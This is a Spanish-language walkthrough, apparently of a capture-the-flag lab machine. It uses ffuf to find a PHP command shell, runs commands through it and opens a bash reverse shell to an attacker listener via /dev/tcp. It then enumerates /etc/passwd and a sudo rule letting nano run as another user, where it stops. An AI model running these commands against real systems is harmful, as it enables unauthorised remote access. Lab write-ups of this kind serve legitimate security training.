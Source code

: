 Ahora explotaremos el archivo de la siguiente manera para encontralo
```bash
# Comandos para explotación
ffuf -w wordlist.txt -u "http://172.17.0.2/hackademy/FUZZ"
```

Tenemos un posible resultado positivo:
```bash
klp_cmd.php             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
:: Progress: [17576/17576] :: Job [1/1] :: 58 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Ahora si intentamos cargarlo en la web:
```bash
http://172.17.0.2/hackademy/klp_cmd.php
```

Ahora lo que procede es ejecutar comandos en el sistema objetivo:
```bash
http://172.17.0.2/hackademy/klp_cmd.php?cmd=whoami
```

Tenemos **RCE** ejecucion remota de comandos en el sistema:
```bash
www-data
```

### Intrusion
Ahora nos aprovechamos de esto para ganar acceso al sistema, Asi que nos ponemos en escucha en nuestra maquina atacante:
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/hackademy/klp_cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Enumeracion de usuario
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
firsthacking:x:1001:1001:,,,:/home/firsthacking:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Listando los permisos de este usario tenemos lo siguiente:
```bash
sudo -l

User www-data may run the following commands on ed44bf952714:
    (firsthacking) NOPASSWD: /usr/bin/nano # Tenemos una via potencial de migrar de usuario
```
